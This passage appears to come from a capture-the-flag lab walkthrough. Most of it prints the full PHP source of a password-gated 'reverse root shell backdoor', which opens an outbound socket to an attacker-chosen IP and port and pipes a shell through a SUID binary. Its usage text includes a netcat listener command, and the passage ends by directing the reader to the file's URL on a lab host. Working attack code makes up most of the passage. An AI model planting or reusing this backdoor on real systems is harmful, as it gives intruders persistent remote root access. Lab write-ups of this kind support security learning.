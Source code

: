 ```php
<?php
$pass = "a7c5ffcf139742f52a5267c4a0674129";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
stream_set_blocking($sock, 0);

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```

Inside of the file we can see some very interesting details of what seems to be a root backdoor

Let's visit this file with our browser by going to: `http://10.10.181.184/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php`
